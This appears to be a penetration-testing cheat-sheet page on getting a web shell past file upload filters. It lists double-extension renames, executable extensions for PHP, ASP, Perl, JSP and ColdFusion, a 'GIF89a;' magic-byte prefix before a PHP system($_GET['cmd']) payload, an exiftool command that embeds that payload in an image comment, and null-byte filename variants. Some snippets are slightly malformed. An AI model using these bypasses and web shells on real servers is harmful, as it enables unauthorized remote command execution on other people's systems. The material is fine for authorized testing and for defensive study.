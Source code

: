 # **File Upload bypass**

One common way to gain a shell is actually not really a vulnerability, but a feature! Often times it is possible to upload files to the webserver. This can be abused byt just uploading a reverse shell. The ability to upload shells are often hindered by filters that try to filter out files that could potentially be malicious. So that is what we have to bypass.

## **Rename Shell <a href="#rename-it" id="rename-it"></a>**

We can rename our shell and upload it as shell.php.jpg. It passed the filter and the file is executed as php.

**php** phtml, .php, .php3, .php4, .php5, and .inc

**asp** asp, .aspx

**perl** .pl, .pm, .cgi, .lib

**jsp** .jsp, .jspx, .jsw, .jsv, and .jspf

**Coldfusion** .cfm, .cfml, .cfc, .dbm

## **GIF89a; <a href="#gif89a" id="gif89a"></a>**

If they check the content. Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```
GIF89a;system($_GET['cmd']);//or you can insert your complete shell code?>
```

## **In image <a href="#in-image" id="in-image"></a>**

```
exiftool -Comment='"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

mv lo.jpg lo.php.jpg

## **Nullbyte <a href="#nullbyte" id="nullbyte"></a>**

```
filename.php%00
filename.php%00.png
filename.php%00.png%00.jpg
```

## **References <a href="#references" id="references"></a>**

​[http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)​
